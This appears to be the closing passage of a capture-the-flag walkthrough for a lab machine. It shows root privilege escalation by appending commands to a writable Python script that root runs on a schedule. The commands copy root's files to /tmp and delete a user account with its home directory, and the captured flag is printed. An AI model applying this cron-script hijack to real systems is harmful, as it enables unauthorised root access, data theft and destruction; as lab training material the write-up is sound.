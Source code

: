 We now see that there is a python script that s running every 2 minute on the system. And fortunately, kidman user have write privilege on the file, even if root is the owner...

you can try to add a reverse Shell command to the already existing script. I will make it short and focused here.

```bash
echo 'subprocess.call("cat /root/* >> /tmp/flags.txt", shell=True)' >> /var/.the_eye_of_ruvik.py
echo 'subprocess.call("userdel ruvik -r", shell=True)' >> /var/.the_eye_of_ruvik.py
```
we should now have the root.txt flag in our tmp directory, Since this script is run with root privilege.

This was a good one... i hope you enjoyed it!

```bash
kidman@evilwithin:~$ cat /tmp/flags.txt 


 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :									|
|											|
|  You have one final task ... Help me to defeat ruvik !!!				|
|											|
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/


BA33BDF5B8A3BFC431322F7D13F3361E
```
